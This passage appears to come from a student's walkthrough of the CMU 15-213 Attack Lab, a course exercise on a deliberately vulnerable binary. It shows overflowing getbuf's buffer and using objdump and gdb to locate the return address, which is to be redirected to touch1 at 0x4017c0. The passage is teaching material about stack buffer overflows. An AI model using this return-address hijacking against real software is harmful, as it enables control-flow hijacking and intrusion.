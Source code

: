 Let's confirm this:
```
$ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:1234567890123456789012345678901234567890123456789012345678901234567890
    Ouch!: You caused a segmentation fault!
    Better luck next time
    FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:0:
            31 32 33 34 35 36 37 38
            39 30 31 32 33 34 35 36
            37 38 39 30 31 32 33 34
            35 36 37 38 39 30 31 32
            33 34 35 36 37 38 39 30
            31 32 33 34 35 36 37 38
            39 30 31 32 33 34 35 36
            37 38 39 30 31 32 33 34
            35 36 37 38 39 30
```
As expected, providing an input that's bigger than 40 bytes crashes the stack and causes a seg fault.

The goal is to do this, but instead of junk values, insert the address of touch1 into the right place on the stack. The idea is that a return statement from any other function in the code will then return to the top of the stack, where our code will be inserted instead of returning to it's usual next instruction. 

Here is the address of touch1 form the objdump:
```
00000000004017c0 <touch1>:
```
So touch1 lives at 0x4017c0. 

Setting a breakpoint at getbuf+7 and examining the stack so that we can see where exactly we want to insert the address:
```
(gdb) x /12gx $rsp
    0x5561dc78:     0x0000000000000000      0x0000000000000000
    0x5561dc88:     0x0000000000000000      0x0000000000000000
    0x5561dc98:     0x0000000055586000      0x0000000000401976
    0x5561dca8:     0x0000000000000002      0x0000000000401f24
    0x5561dcb8:     0x0000000000000000      0xf4f4f4f4f4f4f4f4
    0x5561dcc8:     0xf4f4f4f4f4f4f4f4      0xf4f4f4f4f4f4f4f4
```
The order of these is from top left:
```
word1   word2
word3   word4
word5   return address
```
The current return address is 0x401976 and we want to change that to 0x4017c0. This will lead to touch1 executing instead of the current normal return.
